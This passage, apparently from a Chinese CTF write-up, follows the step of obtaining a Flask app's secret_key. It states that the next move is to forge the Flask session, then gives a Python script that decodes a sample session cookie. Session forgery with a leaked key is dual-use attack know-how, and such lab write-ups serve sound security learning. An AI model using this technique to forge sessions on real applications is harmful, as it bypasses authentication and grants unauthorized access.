 ![image-20220826231227669](img/image-20220826231227669.png)



拿到`secret_key`，直接利用脚本进行flask的`session`伪造

解密脚本：

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(b"eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6Ikd1ZXN0In0.YwhSAg.BU69JzlzLcf9lZ4nXbgJu50cUDE"))
```
